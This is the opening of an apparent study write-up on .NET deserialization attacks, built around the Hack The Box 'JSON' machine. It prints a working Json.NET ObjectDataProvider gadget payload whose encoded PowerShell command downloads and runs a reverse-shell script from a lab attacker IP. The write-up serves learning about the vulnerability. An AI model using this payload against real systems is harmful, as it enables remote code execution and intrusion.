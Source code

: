  # Deserialization Attacks
 
I am currently studying Offensive Security Advanced Web Attacks and Exploitation (WEB-300). One of the sections in the curriculum is a Dot Net Nuke (DNN) deserialization vulnerability leading to code execution.

I have carried out some deserialization attacks before (all legal of course), and whilst I understand the concpet behind them I had never really thought about how the RCE occurs.

I decided to have a look at the underlying .Net objects to demonstrate what is happening under the hood once the deserialization has been carried out an the object has been instantiated.

Hopefully this will help others understand why code execution is achieved.

## JSON

The hack the box JSON machine is a perfect example to explain the underlying object instantiation. Without going in to too much detail the HTTP POST payload used to exploit JSON is shown below:

```json
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/c powershell.exe  -exec bypass -enc SQBFAFgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4ANAAvAHIAZQB2AC4AcABzADEAIgApAA==']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
